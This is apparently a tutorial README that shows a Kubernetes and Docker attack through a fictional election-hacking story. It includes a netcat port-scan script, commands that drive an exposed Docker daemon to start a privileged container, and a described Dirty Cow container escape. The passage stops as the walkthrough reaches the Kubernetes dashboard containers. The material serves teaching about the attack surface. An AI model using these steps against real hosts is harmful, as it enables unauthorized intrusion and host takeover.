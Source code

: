 # Understand Kubernetes Attack Surface Through a Demo Attack

## History
- In the elections between CATS and DOGS, Dogs have been winning elections for quite some time.
- The cats team decides to hack the systems and announce Cats have won the election by a massive majority.

Data that is available publicly are:
- Domains:
  - www.vote.com
  - www.result.com
- Both the domains respond to ping
  - This indicates the domains are hosted in the same server/infrastructure:
```
ping votes.com
pint results.com
```
    
![image](https://github.com/user-attachments/assets/68fd033e-03b2-4ba7-804b-136cce98081e)

### When performing the port-scan it reveals the ports which are exposed/vulnerable
```
cat port-scan.sh

#!/bin/bash

# Check if an IP address is provided
if [ -z "$1" ]; then
    echo "Usage: $0 <host>"
    exit 1
fi

HOST=$1

# List of common ports to scan
declare -A PORTS
PORTS=(
    [21]="ftp"
    [22]="ssh"
    [23]="telnet"
    [25]="smtp"
    [53]="dns"
    [80]="http"
    [110]="pop3"
    [111]="rpcbind"
    [135]="msrpc"
    [139]="netbios-ssn"
    [143]="imap"
    [443]="https"
    [445]="ms-ds"
    [993]="imaps"
    [995]="pop3s"
    [1723]="pptp"
    [2375]="docker"
    [3306]="mysql"
    [3389]="ms-wbt"
    [5900]="vnc"
)

echo "Scanning host $HOST..."

# Loop through the ports and check their status
for PORT in "${!PORTS[@]}"; do
    SERVICE=${PORTS[$PORT]}
    echo -n "Scanning port $PORT for $SERVICE ... "

    # Use nc (netcat) to check if the port is open
    nc -z -w 1 $HOST $PORT &> /dev/null
    if [ $? -eq 0 ]; then
        echo "Success"
    else
        echo "Fail"
    fi
done

# sh port-scan.sh  104.21.63.124
```

The scan results shows the docker port is exposed.
- This points to the fact that the security is disabled for docker service running in the infra.
![image](https://github.com/user-attachments/assets/b92314d6-ceea-476f-88bc-e42112319bcc)

### To verify the access ran the docker ps command:

```
# docker -H www.vote.com ps -a
```
- This lists the containers running within the host.
![image](https://github.com/user-attachments/assets/fd766a0b-5509-4a4c-8a2b-3ac3f130ce23)

- The docker version is also available:
```
# docker -H www.vote.com version
```
![image](https://github.com/user-attachments/assets/8fac0187-67cf-4e2b-8447-afdb43d64a96)


### Now the hacker creates a privileged container to act as a Jump-server
```
# docker -H  www.vote.com  run  --privileged  -it  ubuntu bash
root@new-container:/# 
```
- Then installs the curl/wget packages to run the custom scripts to attack the env

![image](https://github.com/user-attachments/assets/716028be-caa8-4a65-8a88-f5cff43131af)

- Now attacker downloads the Dirty-Cow exploit script:
- And runs it to escape out of the container onto the underlying Host:

![image](https://github.com/user-attachments/assets/7fda2ccc-f622-4d5b-b101-6e1a4224bd9d)

### Runs the script to access the underlying Host terminal

![image](https://github.com/user-attachments/assets/76a1c2f9-ee72-4d7a-9c70-05748c3ec9d4)

![image](https://github.com/user-attachments/assets/da9e7fa5-6d67-4e59-880a-d4f5448bebe2)

- At this point, the attacker can infiltrate into the rest of the network 

![image](https://github.com/user-attachments/assets/69f2753c-9d5f-45ae-a403-84aec33dc382)

- Again on docker ps output it is seen that the containers are having K8s - Kubernetes dashboard ones: 
